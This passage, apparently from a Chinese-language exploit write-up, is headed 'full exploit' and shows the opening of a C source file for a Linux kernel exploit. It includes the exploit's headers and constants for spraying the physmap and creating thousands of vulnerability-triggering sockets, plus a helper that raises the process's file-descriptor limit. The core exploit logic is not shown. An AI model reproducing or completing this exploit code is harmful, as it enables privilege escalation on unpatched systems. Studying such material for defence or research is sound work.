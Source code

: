 
完整 exp:

```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>
#include <limits.h>
#include <signal.h>
#include <string.h>
#include <time.h>
#include <pthread.h>
#include <sys/wait.h>
#include <sys/sysinfo.h>
#include <sys/types.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <linux/in.h>
#include <linux/sockios.h>


#define PAGE_SIZE			  4096
#define SIOCGSTAMPNS 			  0x8907
#define MAGIC_VALUE 			  0x4B5F5F4B
#define OOM_DISABLE                       (-100)
#define NSEC_PER_SEC                      1000000000

#define STATUS_SUCCESS                    0
#define STATUS_FAILURE                    -1  
#define MAX_PHYSMAP_SIZE                  128*1024*1024
#define MAX_PATH                          0x100
#define MAX_PHYSMAP_SPRAY_PROCESS         6
#define MAX_VULTRIG_SOCKS_COUNT           4000
#define MAX_NULLMAP_SIZE                  (PAGE_SIZE * 4)


int   vultrig_socks[MAX_VULTRIG_SOCKS_COUNT];
void* physmap_spray_pages[(MAX_PHYSMAP_SIZE / PAGE_SIZE) * MAX_PHYSMAP_SPRAY_PROCESS];
int   physmap_spray_pages_count;


static int
maximize_fd_limit(void)
{
  struct rlimit rlim;
  int ret;

  ret = getrlimit(RLIMIT_NOFILE, &rlim);
  if (ret != 0) {
    return -1;
  }

  rlim.rlim_cur = rlim.rlim_max;
  setrlimit(RLIMIT_NOFILE, &rlim);

  ret = getrlimit(RLIMIT_NOFILE, &rlim);
  if (ret != 0) {
    return -1;
  }

  return rlim.rlim_cur;
}
```
